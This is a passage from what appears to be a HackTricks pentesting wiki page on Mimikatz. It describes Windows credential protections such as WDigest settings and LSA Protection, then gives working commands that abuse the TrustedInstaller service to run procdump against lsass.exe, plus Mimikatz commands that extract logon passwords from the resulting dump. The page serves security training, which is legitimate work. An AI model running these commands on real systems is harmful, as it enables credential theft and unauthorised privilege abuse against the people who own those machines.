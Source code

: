 # Mimikatz

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="/images/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}

**This page is based on one from [adsecurity.org](https://adsecurity.org/?page_id=1821)**. Check the original for further info!

## LM and Clear-Text in memory

From Windows 8.1 and Windows Server 2012 R2 onwards, significant measures have been implemented to safeguard against credential theft:

- **LM hashes and plain-text passwords** are no longer stored in memory to enhance security. A specific registry setting, _HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ must be configured with a DWORD value of `0` to disable Digest Authentication, ensuring "clear-text" passwords are not cached in LSASS.

- **LSA Protection** is introduced to shield the Local Security Authority (LSA) process from unauthorized memory reading and code injection. This is achieved by marking the LSASS as a protected process. Activation of LSA Protection involves:
  1. Modifying the registry at _HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ by setting `RunAsPPL` to `dword:00000001`.
  2. Implementing a Group Policy Object (GPO) that enforces this registry change across managed devices.

Despite these protections, tools like Mimikatz can circumvent LSA Protection using specific drivers, although such actions are likely to be recorded in event logs.

### Counteracting SeDebugPrivilege Removal

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration:

```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```

This allows the dumping of the `lsass.exe` memory to a file, which can then be analyzed on another system to extract credentials:

```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```
